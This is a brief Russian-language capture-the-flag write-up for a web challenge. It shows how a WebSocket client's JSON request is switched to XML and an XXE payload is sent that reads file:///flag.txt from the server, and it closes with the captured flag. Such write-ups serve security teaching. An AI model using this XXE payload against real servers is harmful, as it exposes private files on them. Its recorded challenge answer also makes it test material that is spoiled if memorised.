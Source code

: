 # Web-1

Протестировав интерфейс сайта, заметим во вкладке *Network* коннект веб сокета с сервером, по котору происходит передача данных:

![](1.png)

Просмотрев исходниый код *script.js* видим передачу данных JSON с предшифровкой и последующей отправкой на сервер:

```js
...
let data = JSON.stringify(encrypted({format: 'json', data: {countries: countries, startdate: startDate, enddate: endDate, resttype: restType}}));
socket.send(data);
...
```

Попробуем изменить формат передачи данных на XML, и посмотрим, что ответи сервер:

```js

socket.addEventListener('message', (event) => {
    ...
    console.log(event.data);
    ...
}

function calculate() {
    ...
    let data = JSON.stringify(encrypted({format: 'xml', data: {countries: countries, startdate: startDate, enddate: endDate, resttype: restType}}));
    socket.send(data);
}
```

![](2.png)

Отлично, сервер принимает XML, подготовим и отправим payload, использующий уязвимость XXE.

```
{format: 'xml', data: '<!--?xml version="1.0" ?--><!DOCTYPE replace [<!ENTITY evil SYSTEM "file:///flag.txt"> ]><data><countries>&evil;</countries><startdate>x</startdate><enddate>x</enddate><resttype>1</resttype></data>'}
```

Атака прошла успешно, флаг получен

![](3.png)

Ответ: nto{w3bs0ck3ts_plu5_xx3_1s_l0v3}
